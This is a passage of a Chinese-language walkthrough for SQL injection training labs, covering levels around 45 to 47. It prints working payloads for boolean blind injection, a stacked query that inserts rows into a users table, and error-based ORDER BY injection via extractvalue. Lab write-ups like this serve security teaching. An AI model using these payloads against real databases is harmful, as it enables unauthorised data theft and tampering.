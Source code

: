 





payload:

> 盲注报表

```
username:任意
password:') or substr((database()),1,1)='s'#
```





> 插入数据

```
username:任意
password:');insert into users values(43,'gg','mm');#
```





#### 46. order by 注入



此题为`order by`类型的注入。

> 搜索全表的数据，并且通过指定字段来排序。(ps.也就是`order by`)



因为此题会回显mysql错误信息。所以此题使用报错注入



payload:

```
?sort=1 and extractvalue(1,concat(0x7e,(select database())))%23
```







猜测后端sql语句：

```
select * from users order by 前端传来的数据 ;
```







#### 47.



此题和46题差不多，mysql报错都会回显到前端。只是46题数据没有被包裹，而此题的数据使用`'`单引号进行包裹
